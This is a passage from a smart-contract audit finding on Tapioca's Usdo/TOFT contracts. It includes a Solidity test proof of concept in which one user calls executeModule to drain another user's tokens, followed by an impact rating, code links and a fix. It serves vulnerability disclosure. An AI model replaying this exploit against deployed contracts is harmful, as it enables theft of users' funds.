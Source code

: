 ```solidity
        cluster.updateContract(aEid, address(bUsdo), true);

        // ----- ADDED THIS ------>
        // Attack using executeModule
        // ------------------------
        vm.startPrank(userA);
        bUsdo.executeModule(
            IUsdo.Module.UsdoMarketReceiver, 
            abi.encodeWithSelector(
                UsdoMarketReceiverModule.removeAssetReceiver.selector, 
                marketMsg_), 
            false);
        // ------------------------

        // Check execution
        {
            assertEq(bUsdo.balanceOf(address(userB)), 0);
            assertEq(
                yieldBox.toAmount(bUsdoYieldBoxId, yieldBox.balanceOf(address(userB), bUsdoYieldBoxId), false),
                0
            );
            assertEq(bUsdo.balanceOf(address(userA)), tokenAmount_);
        }
    }
```

**Note:** The `burst` function was modified in the MagnetarMock contract and add call to `_checkSender` function to reproduce the real situation.

https://github.com/sherlock-audit/2024-02-tapioca/blob/main/Tapioca-bar/test/MagnetarMock.sol#L62-L67

That is also why the `bUsdo` has been whitelisted in the test. 

## Impact

HIGH - Anyone can steal others' tokens from their markets.

## Code Snippet

https://github.com/sherlock-audit/2024-02-tapioca/blob/main/Tapioca-bar/contracts/usdo/Usdo.sol#L152-L159

https://github.com/sherlock-audit/2024-02-tapioca/blob/main/TapiocaZ/contracts/tOFT/mTOFT.sol#L198-L205

https://github.com/sherlock-audit/2024-02-tapioca/blob/main/TapiocaZ/contracts/tOFT/TOFT.sol#L146-L153

## Tool used

Manual Review

## Recommendation

The `executeModule` function should inspect and validate the `_data` parameter to make sure that the caller is the same address as the user who executes the operations.